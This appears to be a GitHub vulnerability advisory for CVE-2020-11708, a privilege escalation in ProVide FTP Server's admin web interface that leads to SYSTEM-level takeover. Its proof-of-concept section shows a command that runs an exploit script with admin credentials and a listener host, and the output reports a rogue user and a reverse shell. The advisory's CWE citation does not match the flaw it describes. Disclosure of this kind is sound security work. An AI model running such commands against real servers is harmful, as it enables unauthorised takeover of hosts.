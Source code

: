 # Web Admin Interface - Privilege Escalation via EXECUTE()

## Summary

The application allows the FTP server admin to execute programs upon certain events are triggered. This behaviour could be exploited by an attacker, to achieve Vertical Privilege Escalation, leading to full takeover of the underlying hosting server (From Web Application Admin to Windows NT\System user).

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as critical. Affected by this vulnerability is an unknown part of the file /ajax/SetUserInfo. The manipulation of the parameter **messages** with an unknown input value leads to a privilege escalation vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect confidentiality, integrity and availability. An attacker might be able to execute arbitrary code on the underlying hosting server, leading to full server takeover.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11708. The attack can be launched remotely. A single authentication is needed for exploitation. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

The `privesc.py` script has been provided to reproduce the issue.

```shell
root@kali:~# python3 privesc_exec.py -t 192.168.226.140 -u Admin -p Passw0rd! -H 192.168.226.129 -P 4444 
[+] Logging in
[+] Creating Rogue User
[+] Enabling FTP
[+] Setting up listener
[+] Triggering reverse shell
[+] Check your shell
```

A video is available as well, to easily understand what the impact could be.

## Remediation

Currently, no official fix is available for this issue.

## References

* [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
* [https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/](https://www.acunetix.com/blog/web-security-zone/what-is-privilege-escalation/)
* [https://cwe.mitre.org/data/definitions/269.html](https://cwe.mitre.org/data/definitions/269.html)